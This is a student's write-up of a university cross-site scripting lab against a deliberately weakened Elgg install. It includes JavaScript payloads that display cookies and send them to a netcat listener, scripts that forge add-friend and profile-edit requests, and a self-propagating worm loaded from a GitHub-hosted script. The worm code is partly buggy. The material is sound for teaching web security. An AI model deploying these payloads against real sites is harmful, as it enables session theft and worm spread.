<p align="center">
    Lab 05 - Cross-Site Scripting (XSS) Attack Lab <br/>
    By Patrick O'Connor <br/>
    v75j556 <br/>
    CSCI 476 - Spring 2021 <br/>

</p>

# Table of Contents
- [ About this project ](#desc)
	- [ File Structure ](#struct)
- [ Task Answers ](#tasks)
- [Contact](#contact)
	- <a href= "mailto: p.oconnormsu@gmail.com?subject= Lab 01 OConnor"> Click here to send email</a>

<a name="desc"></a>
# About this project
Cross-site scripting (XSS) is a type of vulnerability commonly found in web applications. This vulnerability makes it possible for attackers to inject malicious code (e.g., JavaScript) into a victim’s web browser. Using this malicious code, attackers can steal a victim’s credentials, such as session cookies. Access control policies (i.e., the same origin policy) employed by browsers to protect user credentials can be bypassed by exploiting XSS vulnerabilities.

To demonstrate what attackers can do by exploiting XSS vulnerabilities, we have set up a web application named Elgg. Elgg is a very popular open-source social networking web application, and it has implemented a number of countermeasures to remedy XSS threats. To demonstrate how XSS attacks work, we have disabled these countermeasures in our installation of Elgg, intentionally making Elgg vulnerable to XSS attacks. Without the countermeasures, users can post arbitrary message, including JavaScript code, to user profiles.

In this lab, students need to exploit this vulnerability to launch an XSS attack on the modified Elgg web app in a way that is similar to what Samy Kamkar did to MySpace in 2005 through the notorious Samy worm. The ultimate goal of this attack is to spread an XSS worm among users, such that whoever views an infected user profile will be infected, and whoever is infected will add you (i.e., the attacker) to their friend list.

Started: March 14, 2021
\
Last Updated: March 17, 2021
\
Due Date: March 16, 2021

<a name="struct"></a>
# File Structure
- lab05
	- README.md


<a name="tasks"></a>
#   Task 1: Post a Malicious Message to Display an Alert Window
The objective of this task is to embed JavaScript code in your Elgg profile, such that when another user views your profile, the JavaScript code will be executed and an alert window will be displayed.

The following JavaScript code will display an alert window:
```
<script>alert('XSS');</script>
```

If you embed the above JavaScript code in your profile (e.g., in the brief description field), then any user who views your profile will see the alert window. In this case, the JavaScript code is short enough to be typed into the short description field. If you want to run a more substantial piece of JavaScript, but you are limited by the number of characters you can type in the form, you can store the JavaScript code in a standalone file, save it with the .js extension, and then refer to it using the src attribute in the <script> tag. For example:

```
<script type="text/javascript"
    src="http://www.example.com/myscripts.js">
</script>
```

In this example, the page will fetch the JavaScript code from http://www.example.com, which can be any web server.
\
This was not something I had ever thought had existed and is surprising easy. It makes complete sense though as when refreshing the page and loading elements the profile data is loaded including the JS code that can be seen above. I am excited to see what is to come next in this lab.

#   Task 2: Post a Malicious Message to Display Cookies
The objective of this task is to embed JavaScript code in your Elgg profile, such that when another user views your profile, the user’s cookies will be displayed in the alert window. This can be done by adding additional code to the JavaScript code from the previous task:
```
<script>
alert(document.cookie);
</script>
```
Using the code above we can use this through a different users account and find out the cookie information of the current session as seen below in the image.


#   Task 3: Steal Cookies from the Victim's Machine
In the previous task, the malicious JavaScript code written by the attacker can print out the user’s cookies, but only the user can see the cookies, not the attacker. In this task, the attacker wants the JavaScript code to send the cookies to somewhere that the attacker can access the information. To achieve this, the malicious JavaScript code needs to send an HTTP request to the attacker, with the cookies appended to the request.

We can do this by having the malicious JavaScript insert an `````` tag with its ```src``` attribute set to the attacker’s machine. When the JavaScript inserts the ```img``` tag, the browser tries to load the image from the URL in the ```src``` field; this results in an HTTP GET request sent to the attacker’s machine. The JavaScript given below sends the cookies to port 5555 of the attacker’s machine (with IP address ```10.9.0.1```), where the attacker has a TCP server listening on the same port.
With ```netcat``` listening on ```10.9.0.1:5555``` we can insert the following script and save.
```
<script>document.write('');</script>
```

After saving, the JS code is executed and we see the HTTP request and cookie on the terminal as seen below in the screenshot.

This will be activated whether you are on the infected profile and the owner or you are just visiting the infected profile and as long as there is some program listening it will in fact capture the HTTP request and the cookie information of profile visitor.

#   Task 4: Becoming the Victim's Friend
In this and next task, we will perform an attack similar to what Samy did to MySpace in 2005 (i.e. the Samy Worm). We will write an XSS worm that adds Samy as a friend to any other user that visits Samy’s page. This worm does not self-propagate; in a later task we will make it self-propagating.

In this task, we need to write malicious JavaScript code that forges HTTP requests directly from the victim’s browser, without the intervention of the attacker. The objective of the attack is to add Samy as a friend to the victim. We have already created a user called Samy on the Elgg server (the user name is ```samy```).

To add a friend for the victim, we should first find out how a legitimate user adds a friend in Elgg. More specifically, we need to figure out what is sent to the server when a user adds a friend. (Any tool that helps with HTTP inspection is useful here.) By inspecting the contents of HTTP requests, we can identify all of the parameters in the request. Once we understand what the add-friend HTTP request look like, we can write JavaScript code to craft and send an identical HTTP request. We provide template code that aids in completing the task.
```<script type="text/javascript">
window.onload = function () {
    var Ajax=null;

    // This data is sent by the server (look at the page's source code!)
    // and must be included in subsequent requests.
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;           // (1) elgg CSRF countermeasure
    var token="&__elgg_token="+elgg.security.token.__elgg_token;  // (2) elgg CSRF countermeasure

    // Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=59"+ts+token;  //FILL IN

    // Create and send an Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET",sendurl,true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    Ajax.send();
}
</script>
```

The above code should be placed in the “About Me” field of Samy’s profile page. This field provides two editing modes: Editor mode (default) and Text mode. The Editor mode adds extra HTML code to the text typed into the field, while the Text mode does not. Since we do not want any extra code added to our attack code, the Text mode should be enabled before entering the above JavaScript code. This can be done by clicking on “Edit HTML”, which can be found at the top right of the “About Me” text field.
\
To get the information to fill the required information above I used the developer tools that are available in firefox. This gave me the information as seen below in the screenshot to fill in the above code and create the xss attack. Along with this in the next screenshot we can see that the page owner in the source code is 59


\
After saving this as raw text in the about me section we can see in the activity that Samy is now his own friend. To ensure this is effective on other users we can log into another account and visit Samy's profile page. If our script above is effective the log-in user will be added as a friend to samy without pressing the add friend button.

##  Task 4.1:
Carry out the attack to add Samy as a friend to the victim. Describe your strategy and provide supporting code/details.
\
Utilizing the code above we can add Samy as a friend of the victim by somehow getting them to visit our page and then loading the "About Me" section. When this loads the injected script will be executed and therefore the user will then be made Samy's friend without asking either party.  

As you can see below when logged in as Alice and visiting samy's page we instantly add him as a friend without any input from alice.



After visiting Samy's page through Alice's interface we can navigate back to Samy's Page and it can be seen that Alice is now a friend after doing nothing but visting his page.

##  Task 4.2:  
If the Elgg application only provided the Editor mode for the “About Me” field (i.e., you cannot switch to the Text mode), can you still launch a successful attack?
\
No this would not be possible as the special characters used within our script would not be interpreted the same in the editor mode. As stated earlier this input method would convert our script to html and therefore make the script utilized above useless at this point.

#   Task 5: Modifying the Victim’s Profile
The objective of this task is to modify the victim’s profile when the victim visits Samy’s page. We will write an XSS worm to complete the task. This worm does not self-propagate; in a later task we will make it self-propagating.

Similar to the previous task, we need to write malicious JavaScript code that forges HTTP requests directly from the victim’s browser, without the intervention of the attacker. To modify profile, we should first find out how a legitimate user edits or modifies their profile in Elgg. More specifically, we need to figure out how the HTTP POST request is constructed to modify a user’s profile. (Again, any tool that helps with HTTP inspection is useful here.) Once we understand how the modify-profile HTTP POST request is formatted, we can write JavaScript code to send out an identical HTTP request. We provide template code that aids in completing the task.

```<script type="text/javascript">
window.onload = function(){
    // JavaScript code to access user name, user guid, Time Stamp __elgg_ts and Security Token __elgg_token
    var name=elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    var desc="&description=I love Samy";
    // Construct your url.
    var sendurl="http://www.xsslabelgg.com/action/profile/edit";     //FILL IN

    // Construct the content of your request.
    var content=token+ts+name+desc+guid;     //FILL IN

    // Send the HTTP POST request
    var samyGuid=59;    //FILL IN
    if (elgg.session.user.guid!=samyGuid)       // (1)
    {
        // Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }

}
</script>
```
Similar to Task 4, the above code should be placed in the “About Me” field of Samy’s profile page, and the Text mode should enabled before entering the above JavaScript code.
\
In order to edit the profile of a victim I decrypted the process on Samy's page. We can examine this process by looking at the HTTP requests sent when editing Samy's profile.



In the image above we can see that editing your profile is done through a post request.

So, in order to edit a profile we must have their guid. secret token, timestamp, and the edit in type string stored in the desired field.

##  Task 5.1:
Carry out the attack to modify the victim’s profile when the victim visits Samy’s page.
\
With the code noted above in Samy's profile we can now navigate to his page from Alice's login. After navigating to the page and back to Alice's page we can see that her about me page has been edited to the description noted above which is I love Samy

##  Task 5.2:  
Why do we need line (1) in the code above?
\
We need this line in order to bypass attacking Samy himself and therefore replace the infection JS that is currently in his About Me section with I love Samy.
Remove this line, and repeat your attack. Report and explain your observation(s).
\
Removing this line does exactly what is explained above, in that the attack is now ineffective and only changes Samy's profile to I love Samy. Both photos below are proof of the JS being erased when the line (1) is removed.



#   Task 6: Writing a Self-Propagating XSS Worm
To become a real worm, the malicious JavaScript code should be able to propagate itself. Namely, whenever some people view an infected profile, not only will their profiles be modified, the worm will also be propagated to their profiles, further affecting others who view these newly infected profiles. Thus, the more people that view infected profiles, the faster the worm can propagate. This is exactly the same mechanism used by the Samy Worm: within just 20 hours of its October 4, 2005 release, over one million users were affected, making Samy one of the fastest spreading viruses of all time. The JavaScript code that can achieve this is called a self-propagating cross-site scripting worm. In this task, you need to implement such a worm, which not only modifies the victim’s profile and adds the user “Samy” as a friend, but also add a copy of the worm itself to the victim’s profile, so the victim is in essence turned into an attacker.

To achieve self-propagation, when the malicious JavaScript modifies the victim’s profile, it should copy itself to the victim’s profile. There are several approaches to achieve this, and we will discuss two common approaches.

##  Link Approach
If the worm is included using the ```src``` attribute in the ```<script>``` tag, writing self-propagating worms is quite easy. We discussed the ```src``` attribute in Task 1, and an example is given below. The worm can simply copy the following ```<script>``` tag to the victim’s profile, essentially infecting the profile with the same worm.

```
<script type="text/javascript" src="https://raw.githubusercontent.com/OConnorP3276/comp-security-self-prop/master/xss_worm.js"></script>
```
The following script can be found at the address noted above.
```
<script id=worm>
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";  // (1)
    var jsCode = document.getElementById("worm").innerHTML;           // (2)
    var tailTag = "</" + "script>";                                   // (3)

    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);  // (4)
// Get the name, guid, timestamp, and token.

    var userName = elgg.session.user.name;
    var guid = "&guid="+elgg.session.user.guid;
    var ts = "&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token = "&__elgg_token="+elgg.security.token.__elgg_token;
    // Set the content of the description field and access level.
    var link="https://raw.githubusercontent.com/OConnorP3276/comp-security-self-prop/master/xss_worm.js"
    var desc="&description=I love Samy"+link;

    // Set the URL, and create and send Ajax request to modify profile
    // Construct your url.
    var sendediturl="http://www.xsslabelgg.com/action/profile/edit";     //FILL IN

    // Construct the content of your request.
    var content=token+ts+name+desc+guid;     //FILL IN

    // Send the HTTP POST request
    var samyGuid=59;    //FILL IN
    if (elgg.session.user.guid!=samyGuid)       // (1)
    {
        // Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST",sendediturl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }

    // TODO: Set the URL, and create and send Ajax request to add Samy as a friend
    var sendaddurl="http://www.xsslabelgg.com/action/friends/add?friend=59"+ts+token;  //FILL IN
    if (elgg.session.user.guid!=samyGuid)       // (1)
    {
        // Create and send Ajax request to modify profile
    var Ajax=null;
    // Create and send an Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET",sendaddurl,true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    Ajax.send();
    }
</script>
```

##  DOM Approach
Assuming the entire JavaScript code (i.e., the worm) is embedded in the infected profile, to propagate the worm to another profile, the worm code can use DOM APIs to retrieve a copy of itself from the web page.

It should be noted that ```innerHTML``` (2) only gives us the inside part of the code, not including the surrounding ```script``` tags. We just need to add the beginning tag ```<script id="worm">``` (1) and the ending tag ```</script>``` (3) to form an identical copy of the malicious code.

When data is sent in HTTP POST requests with the ```Content-Type``` set to ```application/x-www-form-urlencoded```, which is the type used in our code, the data should also be encoded. The encoding scheme, URL encoding, replaces non-alphanumeric characters in the data with ```%HH``` (i.e., a percentage sign and two hexadecimal digits representing the ASCII code of the character). The ```encodeURIComponent()``` function (4) is used to URL-encode a string.


# Quick-Nav
- [ About this project ](#desc)
	- [ File Structure ](#struct)
- [ Task Answers ](#tasks)

\
<a name="contact"></a>
<a href= "mailto: p.oconnormsu@gmail.com?subject= Lab 01 OConnor"> Click here to send email</a>
